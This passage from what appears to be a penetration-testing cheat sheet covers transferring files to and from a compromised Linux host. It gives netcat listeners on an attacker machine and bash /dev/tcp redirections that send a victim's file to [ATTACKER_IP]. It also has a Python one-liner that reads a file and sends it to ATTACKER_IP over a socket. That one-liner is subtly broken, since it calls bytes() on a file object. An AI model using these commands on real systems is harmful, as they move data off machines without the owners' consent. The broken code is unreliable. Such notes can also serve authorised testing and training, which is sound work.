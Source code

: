 <a id=3.3></a>
## Transferring Files to a Linux system

This task is also quite simple in most cases. Although in some restricted shells we won't have
the ability to download files, at least not in a typical fashion.

```bash
$ wget [URL] -o /path/to/save
$ wget [URL] --output-file /path/to/save
$ curl -X GET [URL] -o /path/to/save
$ curl -X GET [URL] --output-file /path/to/save
# next up we'll see how to do it without any curl or wget tools:b
$ nc -nlvp [PORT] < [FILE] # attacker machine
$ cat 0<>/dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] > recv.txt
# this will allow us to send a file using netcat on our end and using the built-in socket
# functionality in bash. you'll have to press C^c on the attacker machine after the conneciton is made, due to the use
# of the <> redir key usage. if you were to change the cat binary for say, "echo", it wouldn't work. we're using the
# cat stdin if-no-file functionality to receive and write a file from a remote socket.
# this can also be used in reverse: the victim sending files to the attacker. let's see how that would work.
$ nc -nlvp [PORT] > [FILE] # attacker machine
$ bash -c "cat [FILE]" > /dev/tcp/[ATTACKER_IP]/[ATTACKER_PORT] # victim machine
# this could be useful in certain embedded devices, where every single byte of memory available to the service running is useful,
# so this machines usually don't have many user-friendly binaries, as they aren't interacted with that much, or at all. nevertheless,
# exploiting embedded devices is really useful and should be a part of our knowledge, as they are usually vulnerable to simple attacks,
# or rather old attacks.
# and by the way, the methods i'm showing here are NOT the only ones available. this are just simple commands I made in a couple minutes,
# so maybe some betters do exist. try to invest something! :)
```

If all that sounds like a hassle AND you have a Python interpreter available, try the following:
```python
import socket;file=open('FILENAME', 'r');socket;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("ATTACKER_IP", PORT));s.send(bytes(file));s.close()
```

Keep it as a one liner to avoid shell issues on your target. Run it with `python -c 'CODE'`. 

<a id=4></a>
# Shells

<a id=4.1></a>
## Upgrading Shells

When we exploit a system, we won't usually see a prompt, tab completion, keybinds and more. However, this can be set and fixed.
How?! Let's see how.
